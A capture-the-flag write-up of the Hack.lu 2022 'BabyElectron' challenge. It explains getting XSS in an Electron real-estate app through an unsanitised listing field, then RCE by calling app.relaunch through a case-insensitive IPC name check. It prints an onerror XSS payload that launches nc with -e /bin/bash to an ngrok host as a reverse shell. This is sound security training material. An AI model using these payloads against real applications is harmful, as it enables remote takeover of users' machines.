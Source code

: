 ```yaml
---
layout: writeup
title:  "BabyElectron"
source: "flu.xxx"
solves: "19/718"
date:   2022-10-29 11:10:05 +0200
event: "Hack.lu 2022 CTF"
categories: [writeup]
ctf_categories: [web, XSS, RCE]
author: "Mike L."
image: "electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.

## TL;DR


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)